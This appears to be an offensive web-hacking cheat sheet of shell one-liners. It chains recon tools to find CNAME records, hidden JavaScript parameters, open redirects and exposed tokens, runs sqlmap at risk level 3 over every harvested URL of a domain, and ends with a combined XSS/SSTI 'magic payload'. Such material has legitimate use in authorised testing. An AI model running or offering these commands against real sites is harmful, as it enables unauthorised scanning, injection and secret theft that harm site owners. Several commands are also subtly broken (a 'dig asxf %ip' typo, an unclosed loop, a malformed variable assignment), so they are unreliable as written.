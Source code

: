 ## Find CNAME Records

```c
$ for ip in $(cat <FILE>.txt); do dig asxf %ip | grep CNAME; done
```

## Find hidden Parameters in JavaScript Files

```c
$ assetfinder <DOMAIN> | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```

## Find JavaScript Files with gau and httpx

```c
$ echo http://<DOMAIN> | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
```

## Find Open Redirects

```c
$ echo "http://<RHOST>" | gau | grep =http | php -r "echo urldecode(file_get_contents('php://stdin'));"
```

## Find Secrets in JavaScript Files

```c
$ subfinder -d <DOMAIN> -silent | /home/<USERNAME>/go/bin/httpx -silent -o <DOMAIN>_httpx.txt; for i in $(cat <DOMAIN>_httpx.txt); do DOMAIN=$(echo $i | /home/<USERNAME>/go/bin/unfurl format %d) | cat <DOMAIN>_httpx.txt | nuclei -t /home/<USERNAME>/opt/03_web_application_analysis/nuclei-templates/exposures/tokens -o token-expose.txt; done
```

## Find SQL-Injection (SQLi) at Scale

```c
$ subfinder -d <DOMAIN> -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a <FILE>
$ cat <FILE> | gf sqli | tee -a <FILE>
$ while read line; do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3; done < <FILE>
```

## Find basic SQL-Injection (SQLi), Cross-Site Scripting (XSS) and Server-Side Template Injection (SSTI) Vulnerabilities with Magic Payload

```c
'"><svg/onload=alert()>{{7*7}}
```
